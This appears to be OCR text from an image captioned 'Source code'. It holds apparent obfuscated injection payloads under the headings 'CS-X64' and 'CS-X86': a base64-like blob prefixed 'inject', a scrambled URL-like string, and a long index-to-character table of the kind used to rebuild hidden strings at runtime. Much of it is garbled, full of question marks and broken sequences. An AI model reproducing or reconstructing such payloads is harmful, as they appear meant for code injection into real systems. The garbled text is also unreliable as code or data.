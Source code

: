 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

rthbrd48|??2,g;????6,??.;????10,??A;14,????N;??18,T;?22,???s???;26??,????K??;30???,B;34?,????D???;38????,???p;????4??2,d???;46,u????;50????,8;54?,q;?58,?h?;??6?2,???x?;66,8????;??70?,???f;7???4,H?;7?8????,9;82??,???b;86??,k?;90,?q;9???4,7??;98??,.;??102,S???;10??6,w;1???1??0,d????;1???14,???n;11????8,???V;1?22????,E???;?12???6,n??;130??,?k;1????34,1;?1???38??,?z;1???4???2,6;1????46,F????;150?,i;????154???,9?;1???58,?R;1?62,??d;1???66,K????;1??70,1;????174,??.;???178?,4;????18??2,r;????186,9???;1??90,a;???|g?BD?gEv????h.???0K?AALZ???6Ne?C9Tuq??wso??vzK????H0LB?3????mn?DB??O???fp??n?bndz????2???NuKs?98zXd???qlfzh???Du???YxJw????j??8????Dz3fY???HuHrg??w?9LE???L??blw3?kWLzq????Ht???Y??7KzS????.BXw???S?ZyrwH????Ljd?w?Afn????ru??gV??n???nrEv??tSnN????mrk?rUv1V?Puzn????Mz6????0sLF?zgh??i?Hjz???9HMcR???vAr????duR?LK?vn?q1????b??tQ.Y????vT4w???3dr????m??vB9m???2??9ayttrhr
